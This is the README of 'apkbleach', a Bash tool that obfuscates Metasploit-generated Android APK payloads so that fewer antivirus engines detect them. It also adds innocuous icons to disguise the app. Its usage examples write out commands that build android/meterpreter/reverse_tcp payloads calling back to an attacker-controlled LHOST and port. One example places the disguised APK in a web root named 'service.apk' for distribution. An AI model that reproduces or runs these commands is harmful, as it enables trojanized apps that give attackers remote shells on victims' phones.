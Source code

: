 # apkbleach
This BASH script will remove the obvious fingerprints of metasploit through out a given apk file. It also gives the option to inject a custom app icon. This script is constantly being improved so revisions will be made frequently. This is the PUBLIC version of this script thats only triggers 12 of 60 anti-viruses. When the metasploit payload generated by msfvenom with out this script triggers 28 of 60. I am always looking for feed back and ways to improve the code and its techniques. Please feel free to contribute or contact me at graylagx2@gmail.com
   
Usage: 

         Usage: apkbleach -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use> -i <path/to/image.png> -o  <path/to/outputname.apk>

Options: 

      -g <android/payload/to/use LHOST=ip-address-to-use LPORT=port-to-use>
          Generates obfuscated payload with nops
  
      -i <path/to/image.png> [ use -i --list ] to list defaults
          Sets image as the icon of the file.apk
  
      -o  <path/to/outputname.apk>
          Sets the name of custom output file
  
      -x <path/to/apk>
          Uses pre generated metasploit payload to obfuscate
  
      -h  Help menu

Examples: 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444

         ./apkbleach -x /root/msf.apk

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png 

         ./apkbleach -g android/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -i ICONS/settings.png -o /var/www/html/service.apk
